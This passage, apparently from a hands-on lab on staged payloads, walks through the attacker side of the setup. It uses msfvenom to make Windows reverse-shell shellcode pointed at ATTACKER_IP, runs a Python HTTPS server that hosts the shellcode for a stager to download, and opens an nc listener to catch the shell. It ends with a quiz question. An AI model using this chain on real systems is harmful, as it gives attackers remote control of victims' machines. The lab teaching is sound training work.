 AttackBox

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

AttackBox

```
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

```bash
 openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

AttackBox

```
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

```bash
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

AttackBox:

```bash
nc -lvp 7474
```

Answer the questions below

Do staged payloads deliver the full content of our payload in a single package? (yea/nay)

